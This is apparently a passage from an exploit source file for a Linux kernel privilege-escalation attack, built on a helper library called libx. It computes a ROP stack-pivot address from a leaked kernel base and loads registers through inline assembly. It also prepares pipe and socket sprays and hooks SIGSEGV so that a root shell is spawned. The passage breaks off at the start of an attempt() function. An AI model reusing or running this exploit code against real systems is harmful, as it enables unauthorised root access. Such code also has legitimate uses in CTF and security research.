 # ⚔️ EXP

```c
#include "libx.h"
// https://github.com/n132/libx.git
#define NR_PIPE 0x7
int fd = 0 ; 
size_t pivot, RBP_VAL;
void tainRegs(u64 base,u64 heap){
    
    pivot   = 0xffffffff819a71fc - NO_ASLR_BASE + base; 
    RBP_VAL = heap;
    __asm__("mov rax, 0x9999999999999990;"
    "mov rbx, 0x9999999999999991;"
    "mov rcx, 0x9999999999999992;"
    "mov rdx, 0x9999999999999993;"
    "mov rdi, 0x9999999999999994;"
    "mov rsi, 0x9999999999999995;"
    "mov r8,  0x9999999999999996;"
    "mov r9,  0x9999999999999997;"
    "mov r10, 0x9999999999999998;"
    "mov r11, 0x9999999999999999;"
    "mov r12, 0x999999999999999a;"
    "mov r13, pivot;"
    "mov r14, 0x99999999999999fc;"
    "mov r15, RBP_VAL;"
    "leave;"
    "ret;");
}
void shellx(){
    char *sh_args[] = {"sh", NULL};
    execve("/bin/sh", sh_args, NULL);
    while(1);
}
void _sigsegv_handler2(int sig, siginfo_t *si, void *unused) {
    
    info("Libx: SegFault Handler is spwaning a shell...");
    shellx();
    while(1); // Techniquly, we never his this line
}
void hook_segfault2(){
    struct sigaction sa;
    memset(&sa, 0, sizeof(sigaction));
    sigemptyset(&sa.sa_mask);
    sa.sa_flags = SA_SIGINFO;
    sa.sa_sigaction = _sigsegv_handler2;

    if (sigaction(SIGSEGV, &sa, NULL) == -1) {
        perror("hook_segfault");
        exit(EXIT_FAILURE);
    }
    // info("SegFault Hooked");
}
void libxInitX(){
    pinCPU(0);
    impLimit();
    hook_segfault2();
    initPipeBuffer(pipe_fd);
    initSocketArray(sk_fd);
    success("Libx Inited");
}
int  attempt(){

```